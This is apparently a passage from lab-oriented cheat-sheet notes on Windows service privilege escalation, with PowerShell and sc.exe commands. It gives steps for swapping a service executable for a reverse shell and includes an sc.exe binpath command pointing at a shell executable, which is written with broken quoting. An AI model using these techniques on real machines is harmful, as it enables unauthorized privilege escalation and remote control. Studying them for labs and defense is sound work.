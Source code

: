 - Get binary path of a service

		reg query "HKLM\System\CurrentControlSet\Services\spooler" /v "ImagePath"

		**Get services that we can start/stop**

		Get-Service | Where-Object -Property "CanStop" -Match True

		Get-Service | Where-Object -Property "CanStop" -Match True | Where-Object -Property "status" -eq running

- Start/Stop a service

		Start-Service -Name "eventlog"
		Stop-Service -Name "eventlog"

- Change a service property

		Set-Service -Name WinRM -Status Stopped -PassThru
		Set-Service -Name WinRM -Status Running -PassThru

		Set-Service tlntsvr -StartupType manual

### Exploit services with `Windows Shell`

- Query the configuration of a service

		sc.exe qc <name>

- Query the current status

		sc.exe query <name>

- Modify a configuration option of a service

		sc.exe config <name> <option>= <value>

- Start/Stop a service

		net start/stop <name>

### Examples of exploits (POC)
https://medium.com/@ratiros01/tryhackme-steel-mountain-2ab2353cb302

- Replacing the service executable

	- Identify a vulnerable service executable
	- Make a copy of the executable
	- Verify that we can start/stop the service
	- Stop the service
	- Replace the executable with the reverse shell
	- Start the service

- If we can modify the bin path of a service running as root.

		sc.exe config <ServiceName> binpath= "\"C:\path\to\evileverse\shell.exe\**

- Unquoted service path

		Windows checks for executable every time it sees a space in the path.
